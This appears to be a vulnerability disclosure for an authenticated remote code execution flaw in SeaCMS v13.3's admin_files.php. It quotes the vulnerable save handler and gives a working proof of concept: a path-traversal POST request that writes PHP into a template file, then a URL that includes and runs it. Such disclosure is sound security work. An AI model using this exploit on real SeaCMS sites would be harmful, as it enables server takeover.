



## admin_files.php RCE

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability arises because although `admin_files.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code using path traversal, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download


You can see the latest version v13.3

### Vulnerability Analysis and Exploitation

The vulnerable code is located in `0omeqd/admin_files.php`. When the `action=save` parameter is passed, there is no path traversal check, allowing an attacker to write files such as `0omeqd/templets/admin_files.htm`. This can be done by passing the following parameters:
- `filedir=../uploads/../0omeqd/templets/admin_files.htm`
- `content=<?php phpinfo();?>`

```php
elseif($action=='save')  
{  
    if($filedir == '')  
    {  
       ShowMsg('未指定要编辑的文件或文件名不合法', '-1');  
       exit();  
    }  
    if(substr(strtolower($filedir),0,$dirlen)!=$dirTemplate){  
       ShowMsg("只允许编辑附件目录！","admin_files.php");  
       exit;  
    }  
    $filetype=getfileextend($filedir);  
    if ($filetype!="html" && $filetype!="htm" && $filetype!="js" && $filetype!="css" && $filetype!="txt")  
    {  
       ShowMsg("操作被禁止！","admin_files.php");  
       exit;  
    }  
    $folder=substr($filedir,0,strrpos($filedir,'/'));  
    if(!is_dir($folder)){  
       ShowMsg("目录不存在！","admin_files.php");  
       exit;  
    }  
    $content = stripslashes($content);  
    $content = m_eregi_replace("##textarea","<textarea",$content);  
    $content = m_eregi_replace("##/textarea","</textarea",$content);  
    $content = m_eregi_replace("##form","<form",$content);  
    $content = m_eregi_replace("##/form","</form",$content);  
    createTextFile($content,$filedir);  
    ShowMsg("操作成功！","admin_files.php?path=".$folder);  
    exit;  
}
```

When the parameter `action=custom` is passed, the file `0omeqd/templets/admin_files.htm` is included.


#### Exploitation POC

An attacker can send the following request to achieve remote code execution:
```
POST /0omeqd/admin_files.php?action=save HTTP/1.1


content=<?php+phpinfo();?>&filedir=../uploads/../0omeqd/templets/admin_files.htm&Submit=%E4%BF%AE%E6%94%B9%E6%96%87%E4%BB%B6
```



**Payload:**
```
filedir=../uploads/../0omeqd/templets/admin_files.htm
content=<?php phpinfo();?>
```

After injecting the payload, the file can be accessed via the following URL to trigger file inclusion and achieve RCE:

```r
0omeqd/admin_files.php?action=custom
```

